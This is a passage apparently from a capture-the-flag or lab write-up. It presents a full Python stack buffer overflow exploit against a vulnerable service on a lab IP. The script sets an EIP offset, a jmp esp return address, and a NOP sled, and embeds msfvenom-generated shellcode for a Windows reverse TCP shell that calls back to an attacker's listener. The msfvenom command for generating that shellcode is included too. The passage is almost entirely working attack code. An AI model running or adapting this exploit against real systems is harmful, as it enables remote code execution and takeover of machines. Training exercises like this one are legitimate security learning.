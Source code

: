 We need to copy the output to our payload and add a NOP sled, here's the full script I got:

```python
#!/usr/bin/env python3

import socket

# Target configuration
ip = "10.10.199.216"
port = 1337

# Exploit parameters
prefix = "OVERFLOW1 " # Command prefix
offset = 1978 # offset to EIP
overflow= "A" * offset # filler to reach EIP
# Return address: jmp esp in essfunc.dll (0x625011AF) little-endian
retn = "\xaf\x11\x50\x62"
# NOP sled
padding = "\x90" * 32

# Shellcode (Generate with msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=4444 EXITFUNC=thread -b "\x00\x0a" -f c)
payload = (
 b"\x29\xc9\x83\xe9\xaf\xe8\xff\xff\xff\xff\xc0\x5e\x81\x76"
 b"\x0e\xb6\xd6\x8d\xcd\x83\xee\xfc\xe2\xf4\x4a\x3e\x0f\xcd"
 b"\xb6\xd6\xed\x44\x53\xe7\x4d\xa9\x3d\x86\xbd\x46\xe4\xda"
 b"\x06\x9f\xa2\x5d\xff\xe5\xb9\x61\xc7\xeb\x87\x29\x21\xf1"
 b"\xd7\xaa\x8f\xe1\x96\x17\x42\xc0\xb7\x11\x6f\x3f\xe4\x81"
 b"\x06\x9f\xa6\x5d\xc7\xf1\x3d\x9a\x9c\xb5\x55\x9e\x8c\x1c"
 b"\xe7\x5d\xd4\xed\xb7\x05\x06\x84\xae\x35\xb7\x84\x3d\xe2"
 b"\x06\xcc\x60\xe7\x72\x61\x77\x19\x80\xcc\x71\xee\x6d\xb8"
 b"\x40\xd5\xf0\x35\x8d\xab\xa9\xb8\x52\x8e\x06\x95\x92\xd7"
 b"\x5e\xab\x3d\xda\xc6\x46\xee\xca\x8c\x1e\x3d\xd2\x06\xcc"
 b"\x66\x5f\xc9\xe9\x92\x8d\xd6\xac\xef\x8c\xdc\x32\x56\x89"
 b"\xd2\x97\x3d\xc4\x66\x40\xeb\xbe\xbe\xff\xb6\xd6\xe5\xba"
 b"\xc5\xe4\xd2\x99\xde\x9a\xfa\xeb\xb1\x29\x58\x75\x26\xd7"
 b"\x8d\xcd\x9f\x12\xd9\x9d\xde\xff\x0d\xa6\xb6\x29\x58\x9d"
 b"\xe6\x86\xdd\x8d\xe6\x96\xdd\xa5\x5c\xd9\x52\x2d\x49\x03"
 b"\x1a\xa7\xb3\xbe\x87\xc3\xa3\xca\xe5\xcf\xb6\xc7\xd1\x44"
 b"\x50\xbc\x9d\x9b\xe1\xbe\x14\x68\xc2\xb7\x72\x18\x33\x16"
 b"\xf9\xc1\x49\x98\x85\xb8\x5a\xbe\x7d\x78\x14\x80\x72\x18"
 b"\xde\xb5\xe0\xa9\xb6\x5f\x6e\x9a\xe1\x81\xbc\x3b\xdc\xc4"
 b"\xd4\x9b\x54\x2b\xeb\x0a\xf2\xf2\xb1\xcc\xb7\x5b\xc9\xe9"
 b"\xa6\x10\x8d\x89\xe2\x86\xdb\x9b\xe0\x90\xdb\x83\xe0\x80"
 b"\xde\x9b\xde\xaf\x41\xf2\x30\x29\x58\x44\x56\x98\xdb\x8b"
 b"\x49\xe6\xe5\xc5\x31\xcb\xed\x32\x63\x6d\x6d\xd0\x9c\xdc"
 b"\xe5\x6b\x23\x6b\x10\x32\x63\xea\x8b\xb1\xbc\x56\x76\x2d"
 b"\xc3\xd3\x36\x8a\xa5\xa4\xe2\xa7\xb6\x85\x72\x18"
)
postfix = ""

# Build and send the buffer
buffer = prefix + overflow + retn + padding + payload.decode('latin-1') + postfix

print(f"[+] Connecting to {ip}:{port}...")
with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
 s.connect((ip, port))
 print(f"[+] Sending {len(buffer)} bytes payload...")
 s.send(buffer.encode('latin-1') + b"\r\n")
 print("[+] Payload sent.")

print("[+] Done. Check your listener for a shell!")
```
